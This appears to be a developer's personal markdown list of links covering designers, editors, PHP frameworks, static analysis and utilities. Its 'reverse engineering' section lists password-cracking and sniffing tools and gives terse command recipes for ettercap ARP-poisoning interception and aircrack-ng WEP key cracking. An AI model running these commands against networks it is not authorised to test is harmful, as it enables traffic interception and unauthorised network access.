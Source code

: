 # Links

awesome people:
- https://twitter.com/ajlkn is a skillful designer  
- https://github.com/spatie is a php agency producing high quality & widely used packages  
- https://codeblog.jonskeet.uk/ was an architect at c#
- https://www.joelonsoftware.com/ founded stackoverflow

tools:
- http://https//notepad-plus-plus.org/ as a fast editor for windows
- http://www.visualstudio.com/ as a C# IDE for windows
- http://www.jetbrains.com/ as an IDE for all platforms
- http://code.visualstudio.com/ as an editor for all platforms
- http://www.sublimetext.com/ as another editor

mobile frameworks:
- http://cordova.apache.org/
- http://ionicframework.com/

static analysis:
- http://fbinfer.com/
- https://flow.org/

basic tools:
- ninite.com
- easeus partition master
- windirstat
- speccy
- httptrack

username:
- https://knowem.com/checksocialnames.php
- https://checkusernames.com/
- https://iwantmyname.com/

visualizations:
- https://gource.io/ for git
- https://insights.stackoverflow.com for technologies

## php

resources:
- http://www.phptherightway.com/

frameworks:
- http://symfony.com/
- http://www.slimframework.com/
- http://laravel.com/
- http://cakephp.org/

## C#

compilers:
- https://www.xamarin.com/

## Frontend

- https://tympanus.net/codrops/

## reverse engineering

hashes:
- http://crackstation.net/

toolkits:
- http://www.exploit-db.com/
- https://www.kali.org/
- https://www.metasploit.com/

programs:
- Reflector & FileDissassembler (dissassemble .NET)
- IDA Pro
- netcut/tuxcut
- no-ip DUC
- cheatengine
- firesheep
- Cain & Abel
- SMAC 2.7
- colasoft mac scanner pro
- wireshark
- John the Ripper
- winpccap

ettercap:
- configure `etter.conf` (UID = 0, GID = 0, exclude iptables)
- `ettercap -T -Q -M arp:remote -i <wlandevice>`
- `urlsnarf -i <wlandevice>`

aircrack:
- `airmon-ng check kill` to finishes all processes that may interfer
- `airmon-ng start <wlandevice>` to generate new virtual monitordevice
- `airdoump-ng <monitordevice>` to dump all incoming packages
- `airodump-ng -w wep -c <channel> --bssid <macadress> <monitordevice>` to connect to the target network
- `aireplay-ng -3 -a <macadress> <monitordevice>` to generate additional traffic
- `aireplay-ng -1 0 -b <macadress> <monitormode>` to capture ARP packets and generate even more traffic
- `ls` to find name of the `.cap` file with the collected traffic
- `aircrack-ng <packetname>` to decrypt the key

pentesting:
- http://www.enigmagroup.org/
- https://www.hackthissite.org/
- http://www.happy-security.de/